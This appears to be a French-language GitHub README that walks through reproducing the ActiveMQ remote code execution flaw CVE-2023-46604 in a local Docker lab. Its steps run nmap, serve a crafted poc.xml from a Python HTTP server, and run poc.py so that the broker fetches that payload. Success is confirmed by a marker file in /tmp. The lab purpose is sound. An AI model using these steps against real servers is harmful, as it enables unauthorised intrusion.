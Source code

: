 # Exploitation de CVE-2023-46604

Ce document détaille les étapes nécessaires pour exploiter la vulnérabilité **CVE-2023-46604** sur un serveur ActiveMQ, permettant une exécution de code à distance (RCE).

---

## **1. Configuration de l'environnement ActiveMQ**

### Lancer ActiveMQ avec Docker
1. Accédez au dossier `activemq_2023`.
2. Démarrez ActiveMQ en arrière-plan avec la commande suivante :
   ```bash
   docker compose up -d
   ```

   ![Capture Docker Compose](https://github.com/user-attachments/assets/d8f89a89-5db4-443e-ac48-01ada7163acd)

3. Accédez à l'interface d'administration ActiveMQ dans un navigateur :
   ```
   http://localhost:8161/admin/
   ```
   Vous devriez voir la version ActiveMQ (par exemple : **5.17.3**).

   ![Interface ActiveMQ](https://github.com/user-attachments/assets/1a11852e-ada9-4ece-b2b3-b92e99d1fdbc)

4. Vous pouvez également vérifier la version ActiveMQ dans le fichier `docker-compose.yml` :
   ![Version ActiveMQ dans docker-compose.yml](https://github.com/user-attachments/assets/3f82642d-676b-49d2-9f2f-c72d4246717f)

---

## **2. Identifier les services actifs**

Utilisez `nmap` pour scanner les ports ouverts et identifier les services disponibles :
```bash
nmap -p- 192.168.1.145
```

   ![Résultats de Nmap](https://github.com/user-attachments/assets/2377b011-43e0-498a-8ba0-d0a664806038)

---

## **3. Exploiter la vulnérabilité**

### Lancer un serveur HTTP local
1. Ouvrez un port sur le serveur avec la commande suivante :
   ```bash
   python3 -m http.server -b 192.168.1.145 6666
   ```

   ![Serveur HTTP ouvert](https://github.com/user-attachments/assets/89c32c5d-d091-4c45-bbf2-ee755b80f622)

### Utiliser l'exploit
2. Exécutez les fichiers `poc.py` et `poc.xml` pour exploiter la vulnérabilité :
   ```bash
   python3 poc.py localhost 61616 http://192.168.1.145:6666/poc.xml
   ```

   ![Exécution de l'exploit](https://github.com/user-attachments/assets/9a0caee3-f648-454d-81c5-5d301b22ccf4)

3. Vérifiez que la commande a bien été reçue sur le port ouvert (6666).

---

## **4. Vérification de l'exécution de la charge utile**

### Identifier le conteneur ActiveMQ
1. Listez les conteneurs actifs pour trouver l'ID correspondant à ActiveMQ :
   ```bash
   docker ps -a
   ```

   ![Liste des conteneurs](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

### Accéder au conteneur
2. Connectez-vous au conteneur ActiveMQ avec la commande suivante :
   ```bash
   docker exec -it <ID_du_conteneur> /bin/bash
   ```
   - Remplacez `<ID_du_conteneur>` par l'ID récupéré précédemment.

### Vérifier la réussite de l'injection
3. Accédez au dossier `/tmp` et recherchez le fichier créé par l'exploit :
   ```bash
   ls -l /tmp/
   ```

   ![Vérification du fichier dans /tmp](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

   Vous devriez voir un fichier nommé `activeMQ-RCE-success`, preuve de l'exécution réussie de l'injection de code à distance.

---
